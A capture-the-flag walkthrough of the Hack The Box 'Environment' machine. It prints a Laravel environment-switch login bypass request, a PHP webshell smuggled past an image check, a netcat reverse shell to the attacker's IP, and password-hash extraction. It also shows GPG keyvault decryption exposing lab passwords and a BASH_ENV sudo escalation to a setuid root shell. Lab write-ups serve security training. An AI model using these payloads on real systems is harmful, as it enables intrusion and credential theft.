










# HTB: Environment

## About Environment

`Environment` is a medium-difficulty Linux machine. The initial foothold involves exploiting [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301), which allows environment manipulation through an `--env` parameter, bypassing the login functionality. From the management dashboard, [CVE-2024-2154](https://nvd.nist.gov/vuln/detail/CVE-2024-2154) is exploited to upload a `PHP` webshell embedded inside a profile image, giving the player a foothold through command execution. On the compromised system, exposed `GPG` keys can be found along with an encrypted backup. The decrypted data contains valid user passwords, enabling `SSH` access. Privilege escalation is achieved by leveraging sudo permissions. The user is allowed to execute a script with elevated privileges. Although the script itself is harmless, the `BASH_ENV` environment variable is preserved while increasing privileges, which allows execution of arbitrary commands as root.

**Environment lab link:** https://app.hackthebox.com/machines/659

## Initial Reconnaissance

First thing I like to do is scan target with nmap for open ports and reveal what technology is used on machine:

```bash
nmap -Pn -p- --min-rate 2000 -sC -sV -vv -oA nmap/environment 10.129.135.179

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open  http    syn-ack nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx 1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap scan reveals ssh and http ports open. SSH has 9.2p1 version and HTTP backend is nginx 1.22.1 version. SSH version is vulnerable to CVE-2024-6387 (regreSSHion) but I don't think this is the path for exploitation yet, because to exploit this vulnerability we would need to wait for about 6-8 hours to obtain a remote shell. I think I can do it faster ;)

It has domain name of environment.htb that we need to add to our /etc/hosts file to access the web app.

```bash
echo "10.129.135.179 environment.htb" | sudo tee -a /etc/hosts
```

## Website on port 80

After accessing http://environment.htb/ we land on a simple website:


After looking at website and its source code I noticed that mailing list has some working functionality which is unusual for these types of labs. There is also CSRF token in input tag that we can decode via base64:

```html
<input type="hidden" name="_token" value="eQJKKZTGRTUtoOwXR1Sr9ysqHfNSDxt3qLLJBa6r" autocomplete="off">
```

```bash
echo "eQJKKZTGRTUtoOwXR1Sr9ysqHfNSDxt3qLLJBa6r" | base64 -d
yJ)E5-GT+*R
```

But nothing else in particular. To not waste time I would try to fuzz for subdomains & hidden directories on the target while looking at mailing list functionality in Burp.

To fuzz for subdomains I'll use ffuf with wordlist from seclists:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://FUZZ.environment.htb/"
```

Didn't find any subdomains. Let's check for hidden directories:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u "http://environment.htb/FUZZ"

build                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 46ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 46ms]
index.php               [Status: 200, Size: 4602, Words: 965, Lines: 88, Duration: 432ms]
login                   [Status: 200, Size: 2391, Words: 532, Lines: 55, Duration: 520ms]
logout                  [Status: 302, Size: 358, Words: 60, Lines: 12, Duration: 477ms]
node_modules/.package-lock.json [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 46ms]
mailing                 [Status: 405, Size: 244871, Words: 46159, Lines: 2576, Duration: 5556ms]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3, Duration: 50ms]
storage                 [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 46ms]
up                      [Status: 200, Size: 2126, Words: 745, Lines: 51, Duration: 1204ms]
vendor                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 46ms]
upload                  [Status: 405, Size: 244869, Words: 46159, Lines: 2576, Duration: 794ms]
```

I found some interesting endpoints, like login, upload, storage, mailing.

Using Wappalyzer extension in browser I can check that website uses PHP and Laravel.

Trying to access `http://environment.htb/upload` or `http://environment.htb/mailing` reveals to us PHP (8.2.28) and Laravel (11.30.0) version as well as an error message that indicates we can send only POST requests to these endpoints:


That error page also reveals some internal backend codebase which means the application is running in **debug mode**.

## Vulnerability Research & Exploitation

After checking vulnerabilities for Laravel framework I found this high rated CVE: https://nvd.nist.gov/vuln/detail/CVE-2024-52301

But for now it seems useless, since our application is already in debugging state.

Also it seems like Laravel 11.30.0 is vulnerable to reflected XSS when in debug mode, [CVE-2024-13918](https://nvd.nist.gov/vuln/detail/CVE-2024-13918) but it is not useful for our case here since we don't have a victim to target.

After playing with parameters on login endpoint, I was able to reveal some backend source code because application is in debug mode:



After removing any value from `remember` parameter in request body reveals some additional application environment, probably designed to be used by developers:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}
```

Now we can connect our [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301) to change environment and access endpoint (`/management/dashboard`) of the website we should not be able to.

By following this [PoC](https://github.com/Nyamort/CVE-2024-52301) we can send such request to login endpoint to activate preprod environment:

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 132
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InRvSkEzL3hQcE1aMHBLUVVVQ0xWc3c9PSIsInZhbHVlIjoiaHlIY3ErT1V3aGxwcktVOWt5SXg4TFVJczVrNXJrV1prMGh5MW9JbC93L3hpTnJhem1CVnc5dEMybHJXOFhoYUx3TEl5VjlZYncwUHcweEtlMEdMME1uZHBqVEtWdGc0akIra2VpZXQrWGlmRW0xOStXcTVSZUx4WFBaQXhwTVciLCJtYWMiOiJiNzg0N2E1ODc4MWNlNmRlYzcwM2VmMTU2MWE4YzU0NjEzNTkzODgxOWNmNTUzMDQwOWYwNWViNzBlZWI2NDhlIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImowRjRqQmhQQUZXVHJuSEhuWDYvaWc9PSIsInZhbHVlIjoiakVvWG1qVFFyUlQyV3NITFhKOUliVDlhdW1jTGlHdHRrYUpYTW5XdG0wT3paa09GejQzM3ZyMHhURm1GU3d3Q1JKYmhaWXY5R1ZKTmdvRWVtQXRiTFNWTytnK2l3M3E2dUhBWE1kc3I3OWsraHVER3poMWFLYWFlSENvS0tKZWIiLCJtYWMiOiI2OTYzM2U1OGViMjBmODBmNzQzMGQ4MTdhNGY1OWQ0NGZmM2JiOGExMzM5MTUwZTgxZDgwYmYwODNlOWNmOGFjIiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=REgoc9V6MU0xdUsJMbSBVygImoZg0AgDh0KY4X7A&email=admin%40environment.htb,attacker%40environment.htb&password=admin%27&remember=False
```

After sending it in Burp we need to click on `Show response in browser` to be redirected to `environment.htb/management/dashboard`





Basically there is one dev account we are being logged as: hish@environment.htb

And the only functionality there is to upload a profile image by sending POST request to `environment.htb/upload` endpoint.

## File Upload Bypass

Trying to upload a plain PHP shell won't work, because backend checks for 'magic bytes' inside file contents to check if file is an actual image or not.

So we need to find a way to bypass these checks and somehow upload a shell

## Shell upload

I will use this site with a variety of remote shells for different languages: https://www.revshells.com/
In this case, since the site runs on PHP, I chose the following:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Backend probably has bad regex check on filename parameter, because I could upload a file named as `index.gif.php.` with PHP cmd shell inside and magic bytes in request to bypass MIME type checking.

To bypass the magic bytes check, simply add the string `GIF87a` before our shell for gif file types, and also add a period at the end of the file name, which is truncated on the server side and converted to the usual `index.gif.php`.

```http
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 680
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyqgqevjtjeuKysRj
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InpRTit5azYwcm1kcnl3SUgxVUlqa2c9PSIsInZhbHVlIjoiTytCOG9rclVwNkdVdDVQQnVoVEVTelRJZVpKK1pHb2k2UzlvWEIrekw3YzhjNTRKNDFBYkU2Q0tRbnZhRkVncjQwN1NxWU4wV0FhL0E3RjM2dWdaTTFsT1EvT1lXcXplR3BmMTRGWDdXb3ZuMmhlS2U4bjFvOTNHMk51S01PLzQiLCJtYWMiOiI0MmM3MjczZjkxYjA5ZTRiNmM4ZWJjNDFiNWY2ODE2MzI4YWI5NzYzNmU0YjJiZDBkOTEyY2JhYmFlNDIxNDUyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImJZaWFGWFBKRk80ZGkycXVVRXhpK2c9PSIsInZhbHVlIjoidlp0SEpSdGFkeTJkYnRETzNGc0Q4MkgwTzFhSWpTYXNzWVdmU3lHK3A0WHEwQUpkZ1dkSzNPM2E2RmZoVkZZZnZNZnFqWjcxNmR3emxTSXF3N2E0YWJNVndxazhuY081NUpPeWpFcW1MMU5FSVp5WW9RVGFjcCtJK0wzOUYydmciLCJtYWMiOiIxMWVjZmM1NTM5NWI0ZGMzMDhlMTM2YTkwNjZhNTI4Y2FjMGEyOGVmZDFkNTBiYWQxNTAyZmViNTAwMDliODFiIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="_token"

U55EcHxTJCO0cvMScKzD20VSsKYd9oLV8lNhKtn9
------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="upload"; filename="index.gif.php."
Content-Type: image/jpeg

GIF87a
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

------WebKitFormBoundaryyqgqevjtjeuKysRj--
```



From the image above:
1. Modify filename to `index.gif.php.`
2. Send a [PHP cmd payload](https://www.revshells.com/) with magic bytes in the start of the file to bypass GIF MIME type checking
3. Backend parses it as a gif and shows that my PHP cmd shell is at `http://environment.htb/storage/files/index.gif.php.`



Now we have RCE on the target. So to get fully functional reverse shell we need:

## Getting Reverse Shell

1. In our terminal:
   ```bash
   rlwrap nc -lvnp 1337
   ```

2. On our uploaded PHP cmd shell send any reverse shell pointing to us:
   ```bash
   busybox nc 10.10.14.53 1337 -e sh
   ```



3. I like to get a persistent interactive shell for reverse shell that won't drop connection after some time, so I'll use this set of commands to get one:
   ```bash
   # After getting a reverse connection on netcat
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm-256color
   export TERM=xterm
   
   # Now press Ctrl+Z
   
   stty raw -echo ; fg ; reset 
   stty columns 200 rows 200
   ```

## User Privilege Escalation

When we get a reverse shell, we're logged as user **www-data** on system, which is used on Linux systems by web servers like Apache/Nginx to host web applications.

So to map out our next steps we'll look for available users on server:

```bash
www-data@environment:~/app/storage/app/public/files$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
```

After looking at `/etc/passwd` (file that contains all users existing on unix systems) we can guess that we'll need to get access to hish user and then exploit our way to root:
`www-data -> hish -> root`

### Recon as www-data

To get started we would need to check for any critical files that can contain information about hish password (like logs, databases).

After some digging, I found `database.sqlite` in `/var/www/app/database`:





```bash
www-data@environment:~/app/database$ sqlite3 database.sqlite
sqlite3 database.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
cache                  jobs                   sessions
cache_locks            mailing_list           users
failed_jobs            migrations
job_batches            password_reset_tokens
sqlite> select * from users;
select * from users;
1|Hish|hish@environment.htb||$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi||2025-01-07 01:51:54|2025-01-12 01:01:48|hish.png
2|Jono|jono@environment.htb||$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm||2025-01-07 01:52:35|2025-01-07 01:52:35|jono.png
3|Bethany|bethany@environment.htb||$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.||2025-01-07 01:53:18|2025-01-07 01:53:18|bethany.png
sqlite>
```

We see hashed password of our hish user we could try to crack using hashcat:

```bash
~/HackTheBox/environment > echo '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi' > hish_hash.txt
~/HackTheBox/environment > hashid hish_hash.txt
--File 'hish_hash.txt'--
Analyzing '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hish_hash.txt'--%
~/HackTheBox/environment > hashcat hish_hash.txt -m 3200 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v7.1.2) starting
```

But that won't work and take a lot of time and actually isn't needed to get hish's password because we have access to hish's home directory to read all files inside

### Decrypting hish's GPG keyvault

```bash
www-data@environment:~$ ls -la /home/hish
ls -la /home/hish
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Sep  5 17:46 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Sep  5 04:00 user.txt
```

Looking at backup directory we see `keyvault.gpg` file that we can try to decrypt using GPG. But we will fail to do so when simply trying to decrypt it using `gpg -d keyvault.gpg`:

```bash
www-data@environment:/home/hish$ ls -la backup/
ls -la backup/
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep  5 17:48 keyvault.gpg
www-data@environment:/home/hish$ cd backup
cd backup
www-data@environment:/home/hish/backup$ gpg -d keyvault.gpg
gpg -d keyvault.gpg
gpg: Fatal: can't create directory '/var/www/.gnupg': Permission denied
```

because we don't have permission to create files as www-data user in /var/www.

So we'll need to copy keyvault.gpg and hish's .gnupg directory with their private keys to directory we have write permissions to. I'll use /tmp for this:

```bash
www-data@environment:$ cd /tmp
www-data@environment:/tmp$ cp -r /home/hish/.gnupg . && cd .gnupg
www-data@environment:/tmp/.gnupg$ ls
openpgp-revocs.d   pubring.kbx   random_seed
private-keys-v1.d  pubring.kbx~  trustdb.gpg
www-data@environment:/tmp/.gnupg$ cp /home/hish/backup/keyvault.gpg .
www-data@environment:/tmp/.gnupg$ gpg --homedir /tmp/.gnupg -d keyvault.gpg
gpg --homedir /tmp/.gnupg -d keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

here are the passwords, we can use the second one to login as hish user:



```bash
www-data@environment:/home/hish/backup$ su hish
su hish
Password: marineSPm@ster!!

hish@environment:~/backup$
hish@environment:~/backup$ ls -la
ls -la
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep  5 17:56 keyvault.gpg
hish@environment:~/backup$
hish@environment:~/backup$ id
id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

We're in! First thing I check when I get a user on a system is to see what programs I can run with sudo using `sudo -l`:



## Root Privilege Escalation

That program is actually a simple bash script:

```bash
hish@environment:~$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

Here I lost some time, thinking where or how could we hijack execution of these commands, since they are running as root. But after checking `sudo -l` again, I see that I missed crucial `env_keep+="ENV BASH_ENV"` inside. It basically means that we can overwrite bash's internal environment variable, so when we call for `/usr/bin/systeminfo` we could pass our own variable with path to malicious script that will get a root shell when trying to execute bash binary.

### BASH_ENV

Searching web for BASH_ENV gives us this explanation:
```
BASH_ENV is an environment variable in Unix-like systems that specifies the file to be executed when a non-interactive shell is started. It allows users to set up a specific environment for scripts or commands run in that shell.
```

### Exploit

Now to get root, we'll need to create our own shell script that will copy bash binary with root privileges and then pass this script in `BASH_ENV` variable:

```bash
hish@environment:~$ cat > /tmp/root.sh << 'EOF'
cp /bin/bash /tmp/root-bash
chmod +s /tmp/root-bash
EOF
hish@environment:~$ chmod +x /tmp/root.sh
hish@environment:~$ sudo BASH_ENV=/tmp/root.sh systeminfo && /tmp/root-bash -p

--- systeminfo output ---

root-bash-5.2# cd /root
root-bash-5.2# whoami
root
root-bash-5.2# cat root.txt
********************************
root-bash-5.2#
```

We successfully got root shell on system!
